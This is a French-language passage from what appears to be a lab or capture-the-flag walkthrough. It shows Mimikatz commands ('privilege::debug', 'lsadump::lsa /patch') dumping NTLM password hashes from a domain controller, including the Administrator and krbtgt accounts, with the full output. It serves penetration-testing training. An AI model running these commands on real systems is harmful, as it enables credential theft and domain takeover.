 
#### Vérification des privilèges

**Vérifier que Mimikatz s'exécute avec les privilèges administrateur :**

```powershell
mimikatz # privilege::debug
Privilege '20' OK
```

> Si vous voyez `Privilege '20' OK`, Mimikatz s'exécute correctement avec les privilèges administrateur nécessaires.
{: .prompt-info }

---

#### Extraction des hashes

**Dump des hashes avec LSA (Local Security Authority) :**

```powershell
mimikatz # lsadump::lsa /patch
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :
```